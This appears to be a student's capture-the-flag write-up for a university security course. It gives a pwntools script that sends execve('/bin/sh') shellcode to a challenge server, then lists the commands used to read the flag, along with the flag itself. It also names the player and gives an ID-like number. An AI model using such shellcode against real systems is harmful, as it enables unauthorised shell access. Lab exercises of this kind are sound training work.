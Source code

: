 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "seashells"
- story: same as peek, but without Null bytesFinally, actual shell code shellcode. The flag path is randomized, try spawning a shell! 
- the folling script automatically exploits it:
```python
#!/usr/bin/env python3

import pwn

pwn.context.arch = 'amd64'
conn = pwn.remote('tasks.ws24.softsec.rub.de', 32885)

# shellcode from the slides
shellcode = pwn.asm('''
    mov rax, 59;
    lea rdi, [rip + sh];
    mov rsi, 0;
    mov rdx, 0;
    syscall;
    ret;
sh:
    .string "/bin/sh"
''')

print(f'shellcode: {shellcode.hex()}')
conn.recvuntil(b'please enter your (hex-encoded) shellcode, at most 4096 bytes:')
conn.sendline(shellcode.hex().encode())
conn.interactive()
```
- then
```
cd /
ls
cat flag-WkdN9EK48WVjMupL0drrdUmlVwMlm9cW
```

- flag:
```
softsec{gF-TxpcW2H0n6_emtKhUnYrmvDxVspwqfMHP0FYZOb6NOIgz92Guq7QGr0xzgY9p}
```